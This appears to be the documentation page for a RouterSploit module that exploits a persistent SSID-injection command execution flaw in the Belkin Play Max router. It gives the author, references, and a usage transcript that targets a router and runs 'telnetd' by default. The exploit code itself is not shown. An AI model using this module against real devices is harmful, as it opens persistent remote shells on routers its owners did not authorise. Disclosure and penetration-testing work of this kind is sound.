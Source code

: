 # Belkin Play Max Persistent RCE

## Description
Module exploits Belkin SSID injection vuln, allowing to execute arbitrary command at every boot

## Authors
* BigNerd95 (Lorenzo Santina) https://github.com/bignerd95 # vulnerability discovery and routersploit module

## References
* [https://bignerd95.blogspot.it/2017/02/belkin-play-max-persistent-remote.html](https://bignerd95.blogspot.it/2017/02/belkin-play-max-persistent-remote.html)
* [https://gist.github.com/BigNerd95/c18658b472ac0ccf4dbbc73fe988b683](https://gist.github.com/BigNerd95/c18658b472ac0ccf4dbbc73fe988b683)

## Vulnerable devices
* Belkin Play Max (F7D4401)

## Usage
```
rsf > use exploits/belkin/play_max_prce
rsf (Belkin Play Max Persistent RCE) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target Port


Module options:

   Name     Current settings     Description
   ----     ----------------     -----------
   cmd      telnetd              Command to execute


rsf (Belkin Play Max Persistent RCE) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Belkin Play Max Persistent RCE) > run
[*] Running module...
```
